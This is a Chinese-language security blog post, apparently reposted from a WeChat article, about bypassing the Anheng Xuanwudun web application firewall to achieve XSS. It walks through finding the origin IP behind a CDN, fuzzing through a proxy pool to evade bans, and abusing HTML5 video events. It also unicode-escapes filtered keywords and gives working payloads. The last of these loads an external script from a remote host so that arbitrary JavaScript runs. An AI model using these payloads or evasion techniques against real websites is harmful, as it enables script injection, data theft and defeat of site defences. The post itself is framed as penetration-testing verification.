 ```yaml
---
title: XSS bypass 安恒玄武盾
abbrlink: 34838
date: 2019-06-10 17:42:05
categories: WEB
tags:
- XSS
---
```


*本文原发于星盟微信公众号 <https://mp.weixin.qq.com/s/3Qz-ccL2Ynf1YnBlBxjgCQ> , 博客仅备份*

## 起因 

最初发现来自实验室的小伙伴,但是仅限于弹窗,后来发现这种类型的payload构造思路来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>)以及使用了fuzz的一些小技巧,可以实现任意js代码执行.

绕云waf简单的方式就是绕过cdn,找真实ip,翻一下历史解析记录基本都能找到,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

### fuzz起手


最近一次测试是在今年四月份,最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

能fuzz就不手测,如果被ban了ip就上代理池.好像burpsuite不支持代理池,所以简单的fuzz自己写个脚本调用下代理池就好了.

推荐一个[开源的代理池](<https://github.com/qiyeboy/IPProxyPool>),有官方提供的dockerfile(我之前使用的时候是有的,刚出去找没找到,不过手动搭建也很快),一键搭建.

玄武盾对常见关键字过滤的还是挺全的.但是直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.html5普及都这么多年了,玄武盾还没更新到html5,确实无语.

html5标签大概有100多个,可以用我收集的[html5标签字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

使用html5进行的xss有不少方法,以html5与xss到google搜索一下就可以找到很多相关的文章,还有一些靶场.

比如[HTML5_Security_Cheat_Sheet](<https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/HTML5_Security_Cheat_Sheet.md>)与[html5sec](<https://html5sec.org/>),这里就不多说了.

比较容易用来构造xss的标签有`video`.

随手插入一个`<video src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>`,成功

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[html5事件字典在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`(好像是余弦大佬提出的)不需要额外的交互,打开网站.当在指定音视频（audio/video）的元数据（如分辨率和时长）加载后触发.

记得把video标签加上hidden属性.不然动静太大了.

还有一些其他可用的video的事件,请见[他山之石 | 对 XSS 的一次深入分析认识](<https://www.freebuf.com/articles/web/195507.html>)

### 编码绕过

虽然绕过了关键字检测,但是如果直接用`alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

这里需要详细解释下:

浏览器首先会用HTML解析器对HTML文档进行词法解析,也就是说如果遇到HTML实体编码,会将其解码,但是注意,解码后并不会当做一个标签,也就是说,类似`&#x3c;&#x76;&#x69;&#x64;&#x65;&#x6f;&#x3e;`(`<video>`)这样的标签是不会解释的,但是在数据内部,比如`<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;: alert()" >`(`<a href="javascript: alert()" >`)则能执行js.

接着浏览器会调用js解析器对js脚本进行解释,如果遇到url编码,会调用url解析器进行解码.

如果js解析器遇到了js编码,且在字符串中,也就是`\u****`类型的,则会将其js解码后正常执行js代码需要注意的是比如引号,双引号这些控制字符就算被解码了,也不能生效.也就是说,不能通过js编码逃逸引号.

所以,最终事件内payload为:

`[1].find(\u0061lert)`

### 成功执行

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.

完美绕过玄武盾执行任意js代码.